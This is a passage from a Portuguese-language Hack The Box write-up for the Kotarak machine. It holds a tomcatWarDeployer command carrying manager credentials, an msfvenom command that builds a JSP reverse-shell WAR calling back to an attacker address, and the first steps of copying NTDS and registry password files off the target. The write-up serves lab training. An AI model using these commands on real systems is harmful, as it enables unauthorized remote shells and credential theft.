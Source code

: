 `python tomcatWarDeployer.py -U admin -P 3@g01PdhB! -H 10.10.16.126 -p 443 http://10.10.10.55:8080/manager/html`

Não temos shell, não sei pq, tem que debugar o exploit pra descobrir, mas o que importa nesse momento é a utilização da ferramenta

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_aut2.png)

## 3º Modo - Explorando manualmente

O último modo que vou demonstrar é o melhor para entender como ocorre essa exploração, vamos gerar um payload com o msfvenom e upar ele no site, e após isso executar e ganhar uma shell

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.126 LPORT=443 -f war > tomcat.war`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_war.png)

Agora upamos ele no site

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_war1.png)

Executamos e ganhamos a shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_war2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_war3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_war4.png)

Bom, os três modos querem dizer a mesma coisa, eles fazem a coisa praticamente, fizemos todos eles pra treinar

# Escalando Privilégio - Tomcat -> Atanas

Uma vez na máquina, vamos pesquisar por arquivos de interesse

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_at.png)

Verificamos do que se trata esses dois arquivos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_at1.png)

Interessante, arquivos de senhas do Windows

Nota

`Arquivo NTDS -> Tem praticamente tudo do AD, senhas, hashs e tudo mais`

`MS Windows Registry File -> Não preciso nem falar, são arquivos do registro do windows que possui senhas`

Vamos passar esses dois arquivos para nossa máquina pra melhor trabalharmos com eles

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-kotarak/K_at2.png)
